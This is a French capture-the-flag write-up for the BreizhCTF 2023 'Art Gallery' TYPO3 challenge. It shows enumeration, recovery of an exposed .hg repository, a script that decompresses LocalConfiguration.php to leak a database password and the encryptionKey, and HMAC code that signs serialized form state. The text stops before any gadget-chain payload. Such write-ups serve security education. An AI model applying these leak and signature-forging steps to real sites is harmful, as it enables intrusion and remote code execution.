





BreizhCTF 2023 - Art Gallery
==========================

### Challenge details

| Event          | Challenge | Category  | Points | Solves |
| -------------- | --------- | --------- | ------ | ------ |
| BreizhCTF 2023 | Art Gallery | Web | ???    | ???    |


Le plus bel art digital de Bretagne !

Auteur: [Zeecka](https://twitter.com/Zeecka_)

https://artgallery.ctf.bzh/

### TL;DR

Le challenge proposait une application Typo3 dont le code source était accessible au travers d'un dossier `.hg`. Une fois le fichier `_local_configuration.php.i` décodé nous récupérons la clé de chiffrement nécessaire pour désérialiser des données.

La visualisation de l'historique des commits mercurial (.hg) nous permet de récupérer la route `/debug-contact-form` proposant un formulaire de contact avec cette désérialisation signée.

La désérialisation d'une gadget chain Guzzle présente sur le plugin AWS du CMS nous permet ensuite de récupépérer une primitive d'écriture sur le système de fichier, et par extention une RCE.

### Méthodologie

La première étape consistait à effectuer une énumération de l'application.
Cette énumération nous permet de récupérer deux routes intéressantes:

```bash
$ dirsearch -u "https://artgallery.ctf.bzh/" -x 403
```
```
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11592

Output: redacted.txt

Target: https://artgallery.ctf.bzh/

[20:07:37] Starting: 
[20:07:38] 404 -    4KB - /%C0%AE%C0%AE%C0%AF
[20:07:38] 404 -    4KB - /%ff
[20:07:46] 301 -  326B  - /.hg  ->  https://artgallery.ctf.bzh/.hg/
[20:07:46] 200 -  787B  - /.hg/dirstate
[20:07:46] 200 -   11B  - /.hg/requires
[20:07:46] 200 -    2MB - /.hg/undo.dirstate
[20:07:46] 200 -   76B  - /.hg/store/undo
[20:08:51] 404 -  281B  - /cgi-bin/awstats.pl
[20:08:51] 404 -  281B  - /cgi-bin/htimage.exe?2,2
[20:08:51] 404 -  281B  - /cgi-bin/htmlscript
...
[20:09:13] 404 -  281B  - /fileadmin/_processed_/
[20:09:13] 200 -    0B  - /fileadmin/user_upload/
[20:09:13] 301 -  332B  - /fileadmin  ->  https://artgallery.ctf.bzh/fileadmin/
...
[20:10:25] 301 -  328B  - /typo3  ->  https://artgallery.ctf.bzh/typo3/
[20:10:25] 302 -    0B  - /typo3/phpmyadmin/  ->  /typo3/login
[20:10:25] 302 -    0B  - /typo3/phpmyadmin/index.php  ->  /typo3/login
[20:10:25] 404 -  281B  - /typo3conf/AdditionalConfiguration.php
[20:10:25] 302 -    0B  - /typo3/phpmyadmin/scripts/setup.php  ->  /typo3/login
[20:10:25] 200 -   13KB - /typo3/
...
[20:10:26] 200 -    0B  - /typo3temp/
...
```

Dans un premier temps le formulaire de login associé au CMS typo3: https://artgallery.ctf.bzh/typo3/



Aucune combinaison d'identifiants ne peut être récupérée.

Dans un second temps, un dossier [Mercurial](https://www.mercurial-scm.org/) destiné à la gestion de code source est accessible au travers du dossier https://artgallery.ctf.bzh/.hg/.

#### Mercurial - fichiers supprimés

Le dossier ne dispose pas de directory listing mais une récupération partielle peut être effectuée au travers d'outils comme [dvcs-ripper](https://github.com/kost/dvcs-ripper) ou [hg-dumper](https://github.com/arthaud/hg-dumper). Ces outils ne sont cependant plus maintenus et ne permettent pas de récupérer correctement l'entièreté du dossier.

> L'installation de mercurial-scm est necessaire pour pouvoir utiliser les commandes "hg" et rip-hg/hg-dumper.

```bash
$ rip-hg -vv -u https://artgallery.ctf.bzh/.hg/
```

```
[i] Downloading hg files from https://artgallery.ctf.bzh/.hg/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[!] Not found for 00changelog.i: 403 Forbidden
[d] found dirstate
[d] found requires
[!] Not found for branch: 404 Not Found
[!] Not found for branchheads.cache: 404 Not Found
[d] found last-message.txt
[!] Not found for tags.cache: 404 Not Found
[d] found undo.branch
[d] found undo.desc
[d] found undo.dirstate
[!] Not found for store/00changelog.i: 403 Forbidden
[!] Not found for store/00changelog.d: 403 Forbidden
[!] Not found for store/00manifest.i: 403 Forbidden
[!] Not found for store/00manifest.d: 403 Forbidden
[d] found store/fncache
[d] found store/undo
[!] Not found for .hgignore: 404 Not Found
[i] Running hg status to check for missing items
abort: No such file or directory: '/REDACTED/.hg/store/requires'
[i] Got items with hg status: -1
[i] Finished (0 of 0)
```

Les erreurs du script mentionnent l'absence du fichier `.hg/store/requires`, hors celui-ci est bien joignable à l'adresse https://artgallery.ctf.bzh/.hg/store/requires.

Ce problème peut être corrigé en ajoutant `'store/requires',` à [la variable @knownfiles script rip-hg.pl](https://github.com/kost/dvcs-ripper/blob/master/rip-hg.pl#L62).

```bash
rip-hg -vv -u https://artgallery.ctf.bzh/.hg/
```
```
[i] Downloading hg files from https://artgallery.ctf.bzh/.hg/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[d] found 00changelog.i
[d] found dirstate
[d] found requires
[!] Not found for branch: 404 Not Found
[!] Not found for branchheads.cache: 404 Not Found
[d] found last-message.txt
[!] Not found for tags.cache: 404 Not Found
[d] found undo.branch
[d] found undo.desc
[d] found undo.dirstate
[d] found store/00changelog.i
[d] found store/00changelog.d
[d] found store/00manifest.i
[d] found store/00manifest.d
[d] found store/requires
[d] found store/fncache
[d] found store/undo
[!] Not found for .hgignore: 404 Not Found
[i] Running hg status to check for missing items
[i] Got items with hg status: 13
[!] Not found for store/data/public/art-static/art.png.d: 404 Not Found
[d] found store/data/public/art-static/art.png.i
[!] Not found for store/data/public/art-static/fonts/font-awesome.min.css.d: 404 Not Found
[d] found store/data/public/art-static/fonts/font-awesome.min.css.i
[!] Not found for store/data/public/art-static/fonts/fontawesome-webfont.eot.d: 404 Not Found
[d] found store/data/public/art-static/fonts/fontawesome-webfont.eot.i
[d] found store/data/public/art-static/fonts/fontawesome-webfont.svg.d
[d] found store/data/public/art-static/fonts/fontawesome-webfont.svg.i
[!] Not found for store/data/public/art-static/fonts/fontawesome-webfont.ttf.d: 404 Not Found
[d] found store/data/public/art-static/fonts/fontawesome-webfont.ttf.i
[!] Not found for store/data/public/art-static/fonts/fontawesome-webfont.woff.d: 404 Not Found
[d] found store/data/public/art-static/fonts/fontawesome-webfont.woff.i
[!] Not found for store/data/public/art-static/fonts/fontawesome-webfont.woff2.d: 404 Not Found
[d] found store/data/public/art-static/fonts/fontawesome-webfont.woff2.i
[!] Not found for store/data/public/art-static/fullpage.css.d: 404 Not Found
[d] found store/data/public/art-static/fullpage.css.i
[!] Not found for store/data/public/art-static/fullpage.js.d: 404 Not Found
[d] found store/data/public/art-static/fullpage.js.i
[!] Not found for store/data/public/art-static/jquery.min.js.d: 404 Not Found
[d] found store/data/public/art-static/jquery.min.js.i
[!] Not found for store/data/public/art-static/main.js.d: 404 Not Found
[d] found store/data/public/art-static/main.js.i
[!] Not found for store/data/public/art-static/mainend.js.d: 404 Not Found
[d] found store/data/public/art-static/mainend.js.i
[!] Not found for store/data/public/art-static/phone-icon.png.d: 404 Not Found
[d] found store/data/public/art-static/phone-icon.png.i
[!] Not found for store/data/public/art-static/style.css.d: 404 Not Found
[d] found store/data/public/art-static/style.css.i
[i] Finished (14 of 14)
```

La modification du script permet de récupérer l'état du repertoire à son dernier commit.

```bash
tree
```
```
.
└── public
    └── art-static
        ├── art.png
        ├── fonts
        │   ├── font-awesome.min.css
        │   ├── fontawesome-webfont.eot
        │   ├── fontawesome-webfont.svg
        │   ├── fontawesome-webfont.ttf
        │   ├── fontawesome-webfont.woff
        │   └── fontawesome-webfont.woff2
        ├── fullpage.css
        ├── fullpage.js
        ├── jquery.min.js
        ├── mainend.js
        ├── main.js
        ├── phone-icon.png
        └── style.css

4 directories, 14 files
```

La commandand `hg log` permet à son tour de récupérer l'historique des commits:

```
changeset:   3:1e5234ec2e21
tag:         tip
user:        Alex Zeecka <alex@zeecka.tld>
date:        Sun Jan 29 19:02:19 2023 +0000
summary:     Keep only art-static folder

changeset:   2:00469e71232e
user:        Alex Zeecka <alex@zeecka.tld>
date:        Sun Jan 29 19:02:18 2023 +0000
summary:     Working on /debug-contact-form/

changeset:   1:e7f907cc6566
user:        Alex Zeecka <alex@zeecka.tld>
date:        Sun Jan 29 19:02:09 2023 +0000
summary:     Create website

changeset:   0:52fda0b6ecf6
user:        Alex Zeecka <alex@zeecka.tld>
date:        Sun Jan 29 19:02:03 2023 +0000
summary:     Init typo3 project
```

Malheureusement, comme en témoigne le résultat de la commande `hg update 2`, les fichiers composant l'historique des commits n'a pas été récupéré.

```
abandon : data/LICENSE@d8ae9166f584a3891033d7b6fd799d4a807a0148: no match found
abandon : data/composer.json@b272d914cb3ee6ca0d39e7430ea73aa780b48dcf: no match found
abandon : data/composer.lock@d405505d11e863428baeef57906393067f08108f: no match found
abandon : data/config/sites/main/config.yaml@dbc379fe7ad213b792bc888a1450a42de5b1a924: no match found
abandon : data/public/.htaccess@b61bfdbe1e3ec56764abc11fb5d54a09c9dbde3c: no match found
abandon : data/public/fileadmin/.htaccess@93ed0850ec814ba4ad6c36f35ba1d0c5a4e69222: no match found
abandon : data/public/fileadmin/_temp_/.htaccess@7f7741bb6f2872295cb2bff81ba99fe166a65c5e: no match found
abandon : data/public/fileadmin/_temp_/index.html@2a994a659cd875a19b2784e0c8a761bcd93e50b1: no match found
abandon : data/public/fileadmin/index.php@281bfcd9a733f495c76a8190e5310d07222300b0: no match found
abandon : data/public/fileadmin/user_upload/_temp_/importexport/.htaccess@2e7336b8998770e7047f037d3755d67cc2b49f31: no match found
abandon : data/public/fileadmin/user_upload/_temp_/importexport/index.html@2a994a659cd875a19b2784e0c8a761bcd93e50b1: no match found
abandon : data/public/fileadmin/user_upload/_temp_/index.html@b80de5d138758541c5f05265ad144ab9fa86d1db: no match found
abandon : data/public/fileadmin/user_upload/index.html@b80de5d138758541c5f05265ad144ab9fa86d1db: no match found
abandon : data/public/index.php@a3aa69abb563b2b9b488b9e7d6b32348b86ec8d8: no match found
abandon : data/public/typo3/index.php@dfab7682a8ad284e2d18b09cf4810c44c374d875: no match found
abandon : data/public/typo3/install.php@fc50e61d3eb0a1521baeac9fe7f196cafba3cc18: no match found
abandon : data/public/typo3/sysext/backend/Classes/Authentication/Event/SwitchUserEvent.php@43e0fea4cac4c418c39d8deb1e7a33dabccfa2c2: no match found
abandon : data/public/typo3/sysext/backend/Classes/Authentication/PasswordReset.php@1d26fe1dcb873eb958eb179d6bbcf7c4add72111: no match found
```

En continuant notre investiguation, on découvre qur l'outil [hg-decode.pl](https://github.com/kost/dvcs-ripper/blob/master/hg-decode.pl#L10) fournis par [dvcs-ripper](https://github.com/kost/dvcs-ripper) permet lui aussi de récupéré des fichiers. Celui-ci se base sur le fichier [`dirstate`](https://www.mercurial-scm.org/wiki/FileFormats#dirstate) qui contient un index des fichiers courants. Une lecture plus approfondie des [formats de fichiers mercurial](https://www.mercurial-scm.org/wiki/FileFormats) (ou bien l'étude du comportement de mercurial), permet d'identifier le nom du fichier référencant les fichiers supprimés: [`undo.dirstate`](https://www.mercurial-scm.org/wiki/FileFormats#undo..2A). Ce même fichier dispose par ailleurs d'une référence dans [rip-hg.pl](https://github.com/kost/dvcs-ripper/blob/master/rip-hg.pl#L72).

L'adaptation du script [hg-decode.pl](https://github.com/kost/dvcs-ripper/blob/master/hg-decode.pl#L10) en modifiant `dirstate` par `undo.dirstate` permet alors de récupérer l'ensemble des fichiers supprimés:

```bash
perl hg-decode.pl artgallery.ctf.bzh
```
```
Extracting composer.json
Extracting LICENSE
Extracting README.md
Extracting build.sh
Extracting composer.lock
Extracting config/sites/main/config.yaml
Extracting public/.htaccess
Extracting public/art-static/art.png
...
Extracting public/typo3/sysext/backend/Classes/Backend/Avatar/Avatar.php
Extracting public/typo3/sysext/backend/Classes/Backend/Avatar/AvatarProviderInterface.php
...
```

L'extraction des fichiers est particulièrement longue et ne permet pas la récupération de fichiers en clair:

```
cat public/typo3/sysext/backend/Classes/Authentication/Event/SwitchUserEvent.php | xxd
```
```
00000000: 28b5 2ffd 6016 040d 1200 e61f 5c25 0093  (./.`.......\%..
00000010: da00 560c 450b a9a5 ac02 b9bb 65a4 88f9  ..V.E.......e...
00000020: 0a14 b9a8 cacc b5b4 04d9 9c26 f451 5515  ...........&.QU.
00000030: a88a 1251 0052 0050 00e7 4679 16df faec  ...Q.R.P..Fy....
00000040: c943 9fe4 2fae 4fad f34a 3272 1a6a ef99  .C../.O..J2r.j..
00000050: 0c75 c595 41af fc68 ec7e b9b0 3c21 4383  .u..A..h.~..<!C.
00000060: 03f3 647d a8bd 19dd 9f3e 2585 fe94 613e  ..d}.....>%...a>
00000070: b99a 5094 aa48 0e18 5eba 4e77 f452 ee37  ..P..H..^.Nw.R.7
```

#### Mercurial - encryption key et décompression

Compte tenu du nombre important de fichier il est important d'identifier un angle d'attaque. La route `/debug-contact-form/` affichée dans la commande `hg log` nous permet d'identifier un formulaire de contact avec des données sérialisées en base64:



L'article "[Typo3: leak to Remote code execution](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html)" proposé par Hugo Vincent (Synacktive) expose un mécanisme de [désérialization](https://www.arsouyes.org/blog/2020/14_PHP_Injection_Objet) pouvant mener à l'execution de code. Pour valider ce comportement plusieurs pré-requis doivent être remplis:
- L'application doit disposer d'un formulaire avec une variable `__state` (présent dans la quasi totalité des formulaires) ;
- La variable `encryptionKey` du fichier `typo3conf/LocalConfiguration.php` doit être connue pour pouvoir signer la gadgetchain ;
- L'application doit disposer d'une gadgetchain permettant d'apporter des primitives (FW/RCE/...)

La première condition est remplie, maitenant tachons de valider la seconde.

Des infomations complémentaires peuvent être récupérées au travers de la commande `hg debugformat` :

```
format-variant     repo
fncache:            yes
dirstate-v2:         no
tracked-hint:        no
dotencode:          yes
generaldelta:       yes
share-safe:         yes
sparserevlog:       yes
persistent-nodemap:  no
copies-sdc:          no
revlog-v2:           no
changelog-v2:        no
plain-cl-delta:     yes
compression:        zstd
compression-level:  default
```

On y apprend nottament que le mode de compression utilisé est l'algorithme `zstd` (configuration par défault de mercurial). Cette compression explique le fait que les fichiers récupérés soient illisible.

La [documentation typo3](https://docs.typo3.org/m/typo3/reference-coreapi/11.5/en-us/Configuration/ConfigurationFiles.html) indique que le fichier `LocalConfiguration.php` est habituellement situé dans le dossier `public/typo3conf/`. Cependant, l'outil mercurial effectue [des opérations](https://www.mercurial-scm.org/wiki/FileFormats#data.2F) sur les noms de fichiers avant la sauvegarde, notamment pour échaper les nom de fichiers réservées ou propices à une mauvaise interopérabilité. Certaines de ces opérations sont par ailleurs commentées dans l'outil [hg-decode.pl](https://github.com/kost/dvcs-ripper/blob/master/hg-decode.pl#L73).

Ainsi, les fichiers sont suffixé par l'extension `.i` et les majuscules sont remplacées par des  lettres minuscules préfixées par un underscore. Par conséquent le fichier `public/typo3conf/LocalConfiguration.php` est accessible à l'URL https://artgallery.ctf.bzh/.hg/store/data/public/typo3conf/_local_configuration.php.i. A noter également qu'un interfacage avec le script [hg-decode.pl](https://github.com/kost/dvcs-ripper/blob/master/hg-decode.pl) aurait également permis d'identifier l'URL ou effectuer un téléchargement ciblé.

Le fichier suis une architecture avec [RevlogNG](https://www.mercurial-scm.org/wiki/RevlogNG) réservant les 64 premiers octets pour l'indexation du fichier. Le reste du fichier est compressé avec l'algorithme zstd abordé plus haut.

L'interfacage avec un projet mercurial existant peut permettre un déchiffrement du fichier (à confirmer), le script python suivant peut également convenir:

```python
import requests
import zstd
URL = "https://artgallery.ctf.bzh"

r = requests.get(f"{URL}/.hg/store/data/public/typo3conf/_local_configuration.php.i")
data = r.content[64:]
local_configuration = zstd.decompress(data).decode()
print(local_configuration)
```

```
<?php
return [
    'BE' => [
        'debug' => false,
        'explicitADmode' => 'explicitAllow',
        'installToolPassword' => '$argon2i$v=19$m=65536,t=16,p=1$c00uLkFBWlROT1k4Sk5SUg$VNgqjMwix2X4yxrEivSoZsOrDb2J2DMXcSwGm2hilbw',
        'passwordHashing' => [
            'className' => 'TYPO3\\CMS\\Core\\Crypto\\PasswordHashing\\Argon2iPasswordHash',
            'options' => [],
        ],
    ],
    'DB' => [
        'Connections' => [
            'Default' => [
                'charset' => 'utf8mb4',
                'dbname' => 'artgallery',
                'driver' => 'mysqli',
                'host' => 'artgallery-db',
                'password' => 'Q9F6ZgE1rn8B3fSS',
                'port' => 3306,
                'tableoptions' => [
                    'charset' => 'utf8mb4',
                    'collate' => 'utf8mb4_unicode_ci',
                ],
                'user' => 'user',
            ],
        ],
    ],
    'EXTENSIONS' => [
        'aus_driver_amazon_s3' => [
            'dnsPrefetch' => '1',
            'doNotLoadAmazonLib' => '0',
            'enablePermissionsCheck' => '0',
        ],
        'backend' => [
            'backendFavicon' => '',
            'backendLogo' => '',
            'loginBackgroundImage' => '',
            'loginFootnote' => '',
            'loginHighlightColor' => '',
            'loginLogo' => '',
            'loginLogoAlt' => '',
        ],
        'bootstrap_package' => [
            'disableCssProcessing' => '0',
            'disableGoogleFontCaching' => '0',
            'disablePageTsBackendLayouts' => '0',
            'disablePageTsContentElements' => '0',
            'disablePageTsRTE' => '0',
            'disablePageTsTCADefaults' => '0',
            'disablePageTsTCEFORM' => '0',
            'disablePageTsTCEMAIN' => '0',
        ],
        'extensionmanager' => [
            'automaticInstallation' => '1',
            'offlineMode' => '0',
        ],
    ],
    'FE' => [
        'debug' => false,
        'disableNoCacheParameter' => true,
        'passwordHashing' => [
            'className' => 'TYPO3\\CMS\\Core\\Crypto\\PasswordHashing\\Argon2iPasswordHash',
            'options' => [],
        ],
    ],
    'LOG' => [
        'TYPO3' => [
            'CMS' => [
                'deprecations' => [
                    'writerConfiguration' => [
                        'notice' => [
                            'TYPO3\CMS\Core\Log\Writer\FileWriter' => [
                                'disabled' => true,
                            ],
                        ],
                    ],
                ],
            ],
        ],
    ],
    'MAIL' => [
        'transport' => 'sendmail',
        'transport_sendmail_command' => '/usr/sbin/sendmail -t -i',
        'transport_smtp_encrypt' => '',
        'transport_smtp_password' => '',
        'transport_smtp_server' => '',
        'transport_smtp_username' => '',
    ],
    'SYS' => [
        'caching' => [
            'cacheConfigurations' => [
                'hash' => [
                    'backend' => 'TYPO3\\CMS\\Core\\Cache\\Backend\\Typo3DatabaseBackend',
                ],
                'imagesizes' => [
                    'backend' => 'TYPO3\\CMS\\Core\\Cache\\Backend\\Typo3DatabaseBackend',
                    'options' => [
                        'compression' => true,
                    ],
                ],
                'pages' => [
                    'backend' => 'TYPO3\\CMS\\Core\\Cache\\Backend\\Typo3DatabaseBackend',
                    'options' => [
                        'compression' => true,
                    ],
                ],
                'pagesection' => [
                    'backend' => 'TYPO3\\CMS\\Core\\Cache\\Backend\\Typo3DatabaseBackend',
                    'options' => [
                        'compression' => true,
                    ],
                ],
                'rootline' => [
                    'backend' => 'TYPO3\\CMS\\Core\\Cache\\Backend\\Typo3DatabaseBackend',
                    'options' => [
                        'compression' => true,
                    ],
                ],
            ],
        ],
        'devIPmask' => '',
        'displayErrors' => 0,
        'encryptionKey' => '6ba18cabee8701434b5400dd3b1239bcc6c1e9fd81cd3515991a374c89dd16d0f7627f525595f3a7f1c01cf139aec243',
        'exceptionalErrors' => 4096,
        'features' => [
            'yamlImportsFollowDeclarationOrder' => true,
        ],
        'sitename' => 'New TYPO3 site',
        'systemMaintainers' => [
            1,
        ],
    ],
];
```

On récupère ainsi notre deuxième prérequis: l'encryptionKey `6ba18cabee8701434b5400dd3b1239bcc6c1e9fd81cd3515991a374c89dd16d0f7627f525595f3a7f1c01cf139aec243`.

#### Désérialisation, Gadget chain et RCE

Comme abordé dans l'article "[Typo3: leak to Remote code execution](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html)", la soumission du formulaire de contact contient déjà un objet sérialisé en base64, suivi de sa signature (dans la variable state). Voici un exemple de requète légitime:



```
POST /debug-contact-form?tx_form_formframework%5Baction%5D=perform&tx_form_formframework%5Bcontroller%5D=FormFrontend&cHash=5896fae28c9ab2b7816b837d8fdf8172 HTTP/1.1
Host: artgallery.ctf.bzh
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------394558726732902211334108093864
Content-Length: 1853
Origin: https://artgallery.ctf.bzh
Connection: close
Referer: https://artgallery.ctf.bzh/debug-contact-form/
Cookie: fe_typo_user=f38c11ea97b02f6070b881eb55bc50e4
Upgrade-Insecure-Requests: 1

-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][__state]"

TzozOToiVFlQTzNcQ01TXEZvcm1cRG9tYWluXFJ1bnRpbWVcRm9ybVN0YXRlIjoyOntzOjI1OiIAKgBsYXN0RGlzcGxheWVkUGFnZUluZGV4IjtpOjA7czoxMzoiACoAZm9ybVZhbHVlcyI7YTowOnt9fQ==5b1167bd85f0e0fc835b0983cc73af93b14fd32c
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[__trustedProperties]"

{"contactform-1":{"RgOwjA8NI7HYkef":1,"fullname":1,"company":1,"email":1,"subject":1,"message":1,"__currentPage":1}}b68846604a9aa697037fba609dce01eb12431964
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][RgOwjA8NI7HYkef]"


-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][fullname]"

ZEECKA
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][company]"

Foobar
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][email]"

alex.zeecka@ctf.bzh
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][subject]"

Mon objet
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][message]"

Le contenu de mon message
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][__currentPage]"

1
-----------------------------394558726732902211334108093864--
```

Et voici sa réponse (légitime). L'erreur s'explique notamment par l'absence de profile SMTP.



Ici on peut voir que la variable `__state` est composée de la valeure `TzozOToiVFlQTzNcQ01TXEZvcm1cRG9tYWluXFJ1bnRpbWVcRm9ybVN0YXRlIjoyOntzOjI1OiIAKgBsYXN0RGlzcGxheWVkUGFnZUluZGV4IjtpOjA7czoxMzoiACoAZm9ybVZhbHVlcyI7YTowOnt9fQ==5b1167bd85f0e0fc835b0983cc73af93b14fd32c` où `TzozOToiVFlQTzNcQ01TXEZvcm1cRG9tYWluXFJ1bnRpbWVcRm9ybVN0YXRlIjoyOntzOjI1OiIAKgBsYXN0RGlzcGxheWVkUGFnZUluZGV4IjtpOjA7czoxMzoiACoAZm9ybVZhbHVlcyI7YTowOnt9fQ==` est l'objet sérialisé en base64 et `5b1167bd85f0e0fc835b0983cc73af93b14fd32c` la signature de l'objet avec la clé (encryptionKey).

```bash
echo 'TzozOToiVFlQTzNcQ01TXEZvcm1cRG9tYWluXFJ1bnRpbWVcRm9ybVN0YXRlIjoyOntzOjI1OiIAKgBsYXN0RGlzcGxheWVkUGFnZUluZGV4IjtpOjA7czoxMzoiACoAZm9ybVZhbHVlcyI7YTowOnt9fQ==' | base64 -d
```
```
O:39:"TYPO3\CMS\Form\Domain\Runtime\FormState":2:{s:25:"*lastDisplayedPageIndex";i:0;s:13:"*formValues";a:0:{}}
```

La signature peut facilement être vérifiée avec le code suivant:

```python
from hashlib import sha1
import hmac
def gen_sign(string, key):
    # Sign with EncryptionKey recovered from LocalConfiguration.php
    # https://github.com/TYPO3/typo3/blob/f43979e74409500b731a98b39f978379669ed2e9/typo3/sysext/extbase/Classes/Security/Cryptography/HashService.php#L45
    return hmac.new(key.encode(), string.encode(), sha1).hexdigest()

obj = 'TzozOToiVFlQTzNcQ01TXEZvcm1cRG9tYWluXFJ1bnRpbWVcRm9ybVN0YXRlIjoyOntzOjI1OiIAKgBsYXN0RGlzcGxheWVkUGFnZUluZGV4IjtpOjA7czoxMzoiACoAZm9ybVZhbHVlcyI7YTowOnt9fQ=='
key = '6ba18cabee8701434b5400dd3b1239bcc6c1e9fd81cd3515991a374c89dd16d0f7627f525595f3a7f1c01cf139aec243'
print(gen_sign(obj, key))
```
```
5b1167bd85f0e0fc835b0983cc73af93b14fd32c
```

